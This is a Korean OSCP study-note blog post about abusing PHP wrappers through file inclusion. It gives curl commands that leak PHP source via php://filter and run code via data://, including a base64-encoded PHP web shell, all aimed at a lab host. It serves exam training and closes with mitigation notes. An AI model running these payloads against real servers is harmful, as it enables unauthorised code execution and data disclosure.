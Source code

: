 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

## 9.2.2. PHP Wrappers
1. PHP 래퍼(Wrappers)란?
	1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
	2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.
2. `php://filter` 래퍼 활용
	1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
	2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
	3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
3. 예제
	1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
	2. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

1. `data://` 래퍼 활용
	1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
	2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
	3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.
2. 예제: `data://`로 코드 실행
	1. URL-인코딩된 PHP 코드 포함 및 실행
	   ```shell
	   curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
	2. Base64 인코딩을 통한 실행
	   ```shell
	   echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론
- PHP Wrappers는 강력한 기능을 제공하지만, 잘못된 설정이나 취약점을 통해 공격자가 시스템을 악용할 수 있습니다.
- 이러한 취약점은 웹 애플리케이션의 보안성을 강화하고, 서버 설정을 적절히 구성함으로써 방지할 수 있습니다.
